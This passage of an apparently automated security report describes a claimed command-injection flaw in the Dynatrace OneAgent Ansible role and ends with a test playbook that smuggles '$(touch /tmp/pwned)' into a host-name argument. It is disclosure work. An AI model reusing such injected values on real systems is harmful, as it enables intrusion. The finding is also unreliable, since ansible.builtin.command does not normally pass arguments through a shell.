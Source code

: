         - name: Apply OneAgent configuration
          ansible.builtin.include_tasks: config-{{ oneagent_system_family }}.yml
        ```
        This task combines configuration parameters into `_oneagent_all_config_args`. It attempts to filter arguments starting with `--set-` but this is insufficient for security.

    2. **File:** `/code/roles/oneagent/tasks/config/config-unix.yml`
        ```yaml
        - name: Applying OneAgent configuration
          ansible.builtin.command: "{{ oneagent_ctl_bin_path }} {{ _oneagent_all_config_args | join(' ') }}"
          no_log: true
          ignore_errors: true
          changed_when: true
          register: _oneagent_config_result
          when: _oneagent_ctl_state.stat.exists
        ```
        On Unix systems, `ansible.builtin.command` executes `oneagentctl` with the concatenated arguments. The `join(' ')` directly combines all arguments with spaces, making it vulnerable to command injection if `_oneagent_all_config_args` contains malicious commands.

    3. **File:** `/code/roles/oneagent/tasks/config/config-windows.yml`
        ```yaml
        - name: Applying OneAgent configuration
          ansible.windows.win_command: "\"{{ oneagent_ctl_bin_path }}\" {{ _oneagent_all_config_args | join(' ') }}"
          no_log: true
          ignore_errors: true
          changed_when: true
          register: _oneagent_config_result
          when: _oneagent_ctl_state.stat.exists
        ```
        On Windows systems, `ansible.windows.win_command` similarly executes `oneagentctl` with concatenated arguments, also vulnerable to command injection.

    **Visualization:**

    ```
    [User Input (Malicious Install Args)] --> Ansible Playbook --> oneagent_install_args/oneagent_platform_install_args --> _oneagent_all_config_args --> Command Construction (join(' ')) --> `ansible.builtin.command` / `ansible.windows.win_command` --> Shell Execution (command injection) --> System Compromise
    ```

*   **Security Test Case:**
    1. **Precondition:** Ansible control node and a target machine (Linux or Windows) where OneAgent can be installed. Ansible collection `dynatrace.oneagent` is installed on the control node.
    2. **Create a malicious playbook (e.g., `exploit_config.yml`) on the Ansible control node:**
        ```yaml
        ---
        - name: "Exploit Command Injection in oneagentctl Configuration"
          hosts: all
          vars:
            oneagent_environment_url: "https://<your-dynatrace-environment-url>" # Replace with a valid URL if needed for role execution flow, or remove if not necessary to reach config section.
            oneagent_paas_token: "<your-paas-token>" # Replace with a valid token if needed, or remove if not necessary to reach config section.
            oneagent_install_args:
              - "--set-host-name=$(touch /tmp/pwned)" # Malicious command injection
          tasks:
            - name: Import Dynatrace OneAgent role
              ansible.builtin.import_role:
                name: dynatrace.oneagent.oneagent
        ```